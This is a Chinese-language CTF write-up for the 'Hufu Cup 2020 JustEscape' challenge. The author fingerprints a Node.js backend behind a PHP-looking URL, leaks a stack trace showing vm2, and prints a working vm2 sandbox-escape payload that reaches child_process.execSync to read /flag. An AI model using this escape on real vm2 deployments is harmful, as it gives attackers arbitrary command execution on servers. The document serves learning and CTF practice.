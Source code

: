 https://mp.weixin.qq.com/s/rIXIfhw3vcM9PVJI6HTq2g



## 虎符杯 2020 JustEscape

由这个题目而来

https://blog.zeddyu.info/2019/02/14/Hackim-2019/#BabyJS

可以通过以下形式来进行计算

```
http://8959c4a3-f43e-45ff-a5e0-7753dd5556d6.node3.buuoj.cn/run.php?code=1-1
```

但是

```
http://8959c4a3-f43e-45ff-a5e0-7753dd5556d6.node3.buuoj.cn/run.php?code=1%2b1
```

会得到

![image-20200420112457355](/images/image-20200420112457355.png)



从后来的表现来看, 是被过滤了.

![image-20200420114138186](/images/image-20200420114138186.png)

看题目的提示,可能后端不是php, 看到插件wappalyzer显示

![image-20200420114321997](/images/image-20200420114321997.png)

而且, ``Date()``函数 在javascript中可以用, 不带参数. php中没有.所以可以判断后端其实是nodejs写的.

用``Error().stack``来获取可以使用的模块信息.

```
Error at vm.js:1:1 at Script.runInContext (vm.js:131:20) at VM.run (/app/node_modules/vm2/lib/main.js:219:62) at /app/server.js:51:33 at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5) at next (/app/node_modules/express/lib/router/route.js:137:13) at Route.dispatch (/app/node_modules/express/lib/router/route.js:112:3) at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5) at /app/node_modules/express/lib/router/index.js:281:22 at Function.process_params (/app/node_modules/express/lib/router/index.js:335:12)
```

使用payload, 从https://github.com/patriksimek/vm2/issues/225 找到的最新的.

```
?code[]=try{Buffer.from(new Proxy({}, {getOwnPropertyDescriptor(){throw f=>f.constructor("return process")();}}));}catch(e){e(()=>{}).mainModule.require("child_process").execSync("cat /flag").toString();}
```



原题的payload在这里打不了
